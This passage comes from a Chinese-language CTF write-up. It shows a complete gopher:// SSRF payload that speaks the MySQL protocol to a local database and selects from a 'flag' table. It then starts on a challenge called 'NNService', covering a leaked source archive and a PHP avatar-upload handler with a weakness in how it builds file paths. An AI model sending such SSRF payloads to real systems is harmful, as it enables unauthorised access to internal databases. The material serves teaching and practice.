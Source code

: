 ```
gopher://127.0.0.1:3306/_%A8%00%00%01%85%A6%FF%01%00%00%00%01%21%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00ssrf_user%00%00mysql_native_password%00f%03_os%05Linux%0C_client_name%08libmysql%04_pid%0519500%0F_client_version%065.7.22%09_platform%06x86_64%0Cprogram_name%05mysql%21%00%00%00%03select%20%40%40version_comment%20limit%201%12%00%00%00%03SELECT%20DATABASE%28%29%05%00%00%00%02ssrf%0F%00%00%00%03show%20databases%0C%00%00%00%03show%20tables%06%00%00%00%04flag%00%13%00%00%00%03select%20%2A%20from%20flag%01%00%00%00%01
```

最后可以在回显中获取flag<br>[![](https://p5.ssl.qhimg.com/t019c4894b8888e1928.png)](https://p5.ssl.qhimg.com/t019c4894b8888e1928.png)



## NNService

> [题目地址](http://35.240.231.243/)

先扫描查看是否存在源码泄露，发现存在robots.txt,提示存在源码bk/bk.zip,访问即可获取题目的源码。<br>
这里我们主要分析题目最后导致getflag的两个点，在`index.controller.php`中,首先分析更改个人信息的位置上传头像的点:

```
if($_FILES['avatar'] and $_FILES["avatar"]["error"] == 0)`{`
                if((($_FILES["avatar"]["type"] == "image/gif") or ($_FILES["avatar"]["type"] == "image/jpeg") or ($_FILES["avatar"]["type"] == "image/png")) and $_FILES['avatar']['size']&lt;65535)`{`
                    $info=getimagesize($_FILES['avatar']['tmp_name']);
                    if(@is_array($info) and array_key_exists('mime',$info))`{`
                        $type=explode('/',$info['mime'])[1];
                        $filepath=$this-&gt;user-&gt;getuser().".".$type;
                        $filename="uploads/".$filepath;
                        if(is_uploaded_file($_FILES['avatar']['tmp_name']))`{`
                            $this-&gt;user-&gt;edit("avatar",array($filepath,$type));
                            if(strpos($filepath,"..") !== false)
                            `{`
                                die("Hacker, cut please!");
                            `}`
                            else if(move_uploaded_file($_FILES['avatar']['tmp_name'], $filename))`{`
                                quit_and_refresh('Upload success!','edit');
                            `}`
                            quit_and_refresh('Success!','edit');
                        `}`
                    `}`else `{`
                        //TODO！report it！
                        quit('Only allow gif/jpeg/png files smaller than 64kb!');
                    `}`
                `}`
                else`{`
                    //TODO！report it！
                    quit('Only allow gif/jpeg/png files smaller than 64kb!');
                `}`
            `}`
```
